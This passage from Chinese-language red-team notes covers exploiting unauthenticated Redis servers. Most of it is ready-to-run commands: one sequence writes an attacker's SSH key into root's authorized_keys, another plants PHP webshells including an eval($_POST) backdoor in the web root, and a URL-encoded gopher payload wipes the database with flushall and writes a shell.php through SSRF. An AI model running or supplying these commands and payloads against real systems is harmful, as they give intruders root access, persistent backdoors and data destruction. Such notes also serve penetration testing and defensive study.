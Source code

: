 然后执行命令:
```bash
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

# 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
cat test.txt | redis -cli -h <hostname> -x set test
redis-cli -h <hostname>
keys *
get test

# 设置 Redis 的备份路径为 /root/.ssh / 和保存文件名为 authorized_keys ，并将数据保存在目标服务器硬盘上
config set dir "/root/.ssh"
config set dbfilename "authorized_keys"
save
```
保存后可以直接利用公钥登录 ssh

如果报错 `(error) ERR Changing directory: No such file or directory` 可能是因为 root 从来没有登录过

### 往 web 物理路径写 webshell

当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
```bash
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```
即可将 shell 写入 web 目录(web 目录根据实际情况)

这里的第三步写入 webshell 的时候，也可以使用
```bash
set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"
```

`\r\n\r\n` 代表换行，用 redis 写入文件的话会自带一些版本信息，如果不换行的话可能会导致无法执行, 可见下图

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/Redis/1.png)

gopher payload
```
gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0ax%0d%0a\$25%0d%0a%3C%3Fphp%20%40eval(%24_POST%5Bc%5D)%3B%3F%3E%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$13%0d%0a/var/www/html%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$9%0d%0ashell.php%0d%0a*1%0d%0a\$4%0d%0asave%0d%0a
```

### SSRF 配合 Redis 未授权访问漏洞进行攻击

- [SSRF#配合 Redis 未授权访问漏洞进行攻击](../../Web安全/Web_Generic/SSRF.md#配合-redis-未授权访问漏洞进行攻击)

---